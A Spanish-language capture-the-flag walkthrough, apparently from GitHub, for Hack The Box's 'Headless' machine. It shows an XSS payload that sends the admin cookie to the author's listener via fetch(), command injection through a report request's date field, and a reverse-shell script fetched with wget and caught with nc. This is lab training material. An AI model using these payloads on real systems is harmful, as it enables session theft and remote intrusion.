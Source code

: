 #MÁQUINA HEADLESS

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/9f252485-3b0e-4e77-9f7b-cd3f3ec93386)

En primera instancia, procedemos a conectarnos a la VPN

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/498cb47d-d1a2-4b5b-89db-fa41153793f6)

Una vez conectados, procedemos a hacer el Nmap a la ip de la maquina (10.10.11.8)

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/62f3c5df-2a57-4f87-a10d-0b547fb749d9)

Como podemos apreciar, tenemos dos puertos abiertos, el puerto 5000/tcp indica que el puerto 5000 está abierto y está utilizando el protocolo TCP (Transmission Control Protocol). En este caso, también se especifica que el servicio que está utilizando este puerto es "upnp". UPnP (Universal Plug and Play) es un conjunto de protocolos de red que permite a dispositivos en una red comunicarse entre sí sin necesidad de configuración manual por parte del usuario o un administrador de red.

En este caso vamos a tratar de entrar a este puerto. 

Si nos vamos al navegador y ponemos la ip de la maquina junto con el puerto (10.10.11.8:5000) podremos apreciar lo siguiente

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/131640d5-e21b-422b-b9bb-9ae8b848d582)

Si presionamos el botón “For questions” podremos apreciar lo siguiente: 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/6f9f8931-4dae-4966-82b6-c04a6272a059)

Si en Message, podemos un código, en este caso la etiqueta script para causar error a propósito (Pues no está finalizado el cierre), podremos apreciar lo siguiente

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/443744f1-606c-4931-acbe-a08a86c5bb22)

Donde podremos ver el cookie del administrador, pero esto aún no es para iniciar sesión como este. 

Podremos ver el mismo valor si inspeccionamos la página y ns dirigimos a "Storage":

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/9de3e621-dd0e-435f-ab09-f2787352ab93)

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/91a41c5c-9476-4be6-9120-82ff7ff37d30)

#CONFIGURACIÓN BURP SUITE

En primera instancia procedemos a configurar nuestro Burp Suite, agregando un proxy con la ip y puerto '127.0.0.1:8080'

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/606f6dbd-1b2a-41b8-9786-67c7443584b8)

Y luego procedemos a instalar la extensión 'FoxyProxy' para poder escuchar y hacer peticiones a la página que se mostró en un principió.

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/18908790-ead9-4e02-8ed2-04249bb878b7)


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/cc9280e4-f67a-46ab-9bef-ddfcbd4897a6)

Una vez instalada procedemos a irnos a opciones: 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/8affec6d-3e87-4d2b-a0fa-d5e8ffcf95e7)

Y luego a 'Proxies' con la misma ip y puerto que tenemos en el Burp Suite

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/f1cefa7d-186a-4e3a-9a1e-7d8835f4b12c)

Nos tendrá que aparecer algo así:


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/c4b9f52f-e147-4663-a9e3-6165aaad5c09)

Seleccionamos el que hemos creado y seleccionamos el botón Submmit para luego dirigirnos al apartado de Proxy en Burp. La petición se verá así:

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/06489428-6891-4491-ba17-66e0bd97dc4e)

Le damos clic derecho y lo enviamos al 'Repeater' para realizar las peticiones:


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/ca86451e-9974-4fbd-b53e-4fac23608f56)


![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/8bbb56fb-4598-4f91-8041-57e67bd18334)

#INICIO HACKEO

Primero procedemos a conocer la ip de nuestra máquina virtual:

```
ip a
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/8c0c0378-3daa-4269-a827-0f90a27580ab)

Lugo pondremos a escuchar un puerto, en este caso es: 1234

```
python3 -m http.server 1234
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/1e55d1d6-da06-4c4d-bb7c-8d7d3ad59eac)

Para luego enviar la siguiente solicitud en el campo 'message' con la ip de la máquina y el puerto que pusimos a escuchar para obtener el cookie de la página para acceder como administrador

```
<img src=x onerror=fetch('http://10.10.14.28:1234/'+document.cookie);>
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/805d6cc8-efff-4827-a678-b99bc9ad734f)

Luego de enviarla veremos que se obtuvo lo siguiente 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/13111897-cc7f-4468-b1ce-b0a86bcc7abd)

Donde podemos observar el valor de la llave del administrador

Luego, nos vamos a inspeccionar de nuevo la pagina web y nos vamos a 'Storage para reemmplazar el valor de la cookie del administradir por el nuevo que nos trajo cuando se escuchó el puerto:

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/c0518daf-fcbe-44e9-811f-5a16b36c8157)

Recargamos y como podemos ver tenemos acceso al panel del administrador

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/3d9f991f-97db-4dcd-8c24-af91e57568d9)

Y al presionar el botón 'Generate Report' podremos ver la petición en el Burp Suite, donde la enviaremos al 'Repeater'

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/70c9c307-27f9-4a36-a987-dc4a061517e8)

Una vez alli probamos con el comando ls para investigar que hay

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/62438378-1563-413b-8112-b706ef297575)

Donde podemos observar los archivos que componen la web. Nuestro objetivo será entrar a la máquina para obtener las banderas, por lo que desde aquí todavia no tenemos acceso a ella. 

Procedemos a preguntar cual es el usuario actual con el siguiente comando

```
whoami
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/69fdf2aa-2be7-4c2e-b79d-1f28dd94825f)

Donde podremos observar que no es el usuario root, y por lo tanto podemos deducir que es al primero al que atacaremos para obtener la bandera

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/58b7af12-4754-4e83-9498-5ef6641b700d)

Una vez realizado el paso anterior, procedemos a escuchar el puerto 3333 en mi caso que a donde voy a realizar la solicitud. 

```
python3 -m http.server 3333
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/c97788fb-7232-4ab2-b86b-d86dfe573949)

Luego procedemos a crear un archivo de script (payload.sh en este caso) que contiene un comando de shell inversa. Este comando intenta establecer una conexión de shell inversa a la dirección IP 10.10.14.28 en el puerto 9090.

```
echo "sh -i > & /dev/tcp/10.10.14.28/9090 0>&1" | tee -a payload.sh
```

También le otorgamos permisos de ejecución al archivo

```
chmod +x payload.sh
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/7ed3a828-f13e-416c-8b86-53c98df9103e)


Una vez puesto el puerto a escuchar procedemos a realizar la siguiente solicitud en la página para verificar de que si se esta trayendo la información 

```
wget http://10.10.14.28:3333/payload.sh
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/f2c103a8-a713-49f4-8cfb-a51c14da7a61)

Y una vez relizada la petición procedemos a mirar la terminal

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/6229ac2b-eaa4-47a5-a459-e3652a130019)

Además de eso procedemos a crear un servidor de escucha para el puerto 9090, que fue al que añadimos al payload 

```
nc -lvnp 9090
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/2c95f891-ff1e-4107-b4c9-0ec3c8ac8acc)

Y en el Burp Suite procedemos a enviarle por medio del campo date lo siguiente 

```
bash payload.sh
```

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/66a4b439-0276-4f83-babe-8891a672ffca)

Y una vez realizada la solicitud, volvemos a la terminal para ver que ya se tiene acceso

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/1e149ec7-549a-4e9f-a68a-dc79f9616922)

Procedemos a preguntar quienes somos y en que directorio estamos ubicados, para luego listar y ver lo que se tiene 

![image](https://github.com/ElSantiagoBernal/HACK-THE-BOX/assets/100774275/a0781191-ff1f-42ca-8f31-f9d5aed300e2)







